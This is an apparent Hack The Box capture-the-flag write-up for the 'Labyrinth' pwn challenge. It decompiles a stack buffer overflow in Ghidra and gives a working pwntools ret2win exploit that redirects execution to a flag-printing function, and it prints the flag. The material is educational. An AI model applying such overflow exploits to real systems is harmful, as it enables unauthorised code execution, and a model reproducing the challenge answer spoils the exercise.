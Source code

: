 # Hack The Box — Pwn Challenge: Labyrinth Writeup

**Author:** 0xdf-sec  
**Date:** 2025-07-29 00:31:23 UTC


## Initial Analysis

Looking at our challenge files, we have:
- `labyrinth` - the binary file we need to exploit
- `glibc` - collection of standard libraries required by the binary
- `flag.txt` - fake flag for local testing

Let's check the binary security protections using `checksec`:

```bash
checksec ./labyrinth
```

**Security Analysis:**
- **Full RELRO**: GOT is read-only, preventing GOT overwrite attacks
- **No Canary**: Stack buffer overflow protection is disabled
- **NX Enabled**: Stack/heap are non-executable, preventing shellcode execution
- **No PIE**: Binary loads at fixed addresses, making exploitation easier

## Runtime Analysis

Starting the docker environment and connecting via netcat:

```bash
nc <ip> <port>
```

The program presents us with a "labyrinth" interface showing doors numbered 001-100. Choosing a random door results in failure, so we need to reverse engineer the binary to find the correct path.

## Reverse Engineering with Ghidra

Loading the binary into Ghidra and analyzing the `main` function reveals the key logic:

```c
undefined8 main(void)
{
  int iVar1;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  char *local_18;
  ulong local_10;
  
  setup();
  banner();
  
  // Initialize local variables
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  
  // Display doors 1-100
  fwrite("\nSelect door: \n\n",1,0x10,stdout);
  for (local_10 = 1; local_10 < 0x65; local_10 = local_10 + 1) {
    // Door display logic...
  }
  
  // Get user input
  local_18 = (char *)malloc(0x10);
  fgets(local_18,5,stdin);
  
  // Check for door "69" or "069"
  iVar1 = strncmp(local_18,"69",2);
  if (iVar1 != 0) {
    iVar1 = strncmp(local_18,"069",3);
    if (iVar1 != 0) goto LAB_004015da;
  }
  
  // Vulnerable input - buffer overflow opportunity!
  fwrite("\nYou are heading to open the door but you suddenly see something on the wall:\n\n\"Fly like a bird and be free!\"\n\nWould you like to change the door you chose?\n\n>> ", 1, 0xa0, stdout);
  fgets((char *)&local_38,0x44,stdin);  // 68 bytes into 32-byte buffer!
  
LAB_004015da:
  fprintf(stdout,"\n%s[-] YOU FAILED TO ESCAPE!\n\n",&DAT_00402541);
  return 0;
}
```

**Key Findings:**
1. Door "69" or "069" triggers the vulnerable code path
2. The second `fgets` reads 68 bytes (`0x44`) into a 32-byte buffer (`local_38`)
3. This creates a classic stack buffer overflow vulnerability

## Finding the Target Function

Analyzing further, we discover the `escape_plan` function that reads and prints the flag:

```c
void escape_plan(void)
{
  ssize_t sVar1;
  char local_d;
  int local_c;
  
  putchar(10);
  fwrite(&DAT_00402018,1,0x1f0,stdout);
  fprintf(stdout, "\n%sCongratulations on escaping! Here is a sacred spell to help you continue your journey : %s\n", &DAT_0040220e,&DAT_00402209);
  
  local_c = open("./flag.txt",0);
  if (local_c < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n\n");
    exit(1);
  }
  
  while( true ) {
    sVar1 = read(local_c,&local_d,1);
    if (sVar1 < 1) break;
    fputc((int)local_d,stdout);
  }
  close(local_c);
  return;
}
```

Getting the function address:
```bash
objdump -d ./labyrinth | grep escape
```

## Exploitation

The vulnerability allows us to overflow the stack and overwrite the return address to redirect execution to `escape_plan`.

**Exploit Script:**
```python
from pwn import *

exe = ELF("/path/to/labyrinth")
libc = ELF("/path/to/libc.so.6")
ld = ELF("/path/to/ld-linux-x86-64.so.2")

context.binary = exe

host = '94.237.52.170'
port = 56514
r = remote(host, port)

# Step 1: Enter door 69 to reach vulnerable code path
r.sendline(b'69')

# Step 2: Craft buffer overflow payload
addr = 0x0000000000401256  # Address of escape_plan function
payload = b'a' * 0x30 + p64(exe.bss() + 0x200) + p64(addr)

# Payload breakdown:
# b'a' * 0x30: 48 bytes to fill buffer and reach return address
# p64(exe.bss() + 0x200): Fake base pointer
# p64(addr): Overwrite return address with escape_plan

r.sendline(payload)

# Receive and display flag
success(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}')
```

## Execution

Running the exploit:
```bash
python3 exploit.py
```

**Result:** `HTB{3sc4p3_fr0m_4b0v3}`

## Summary

This challenge demonstrates a classic stack buffer overflow vulnerability where:
1. Door "69" unlocks the vulnerable code path
2. Insufficient bounds checking allows stack overflow
3. Return address overwrite redirects execution to the flag-printing function

**Key Skills Required:**
- Binary analysis with Ghidra
- Understanding stack frame layout
- Buffer overflow exploitation techniques
- Python scripting with pwntools

The challenge serves as an excellent introduction to stack-based buffer overflows in a controlled CTF environment.

---
*Challenge completed successfully! On to the next pwn challenge! 💻*
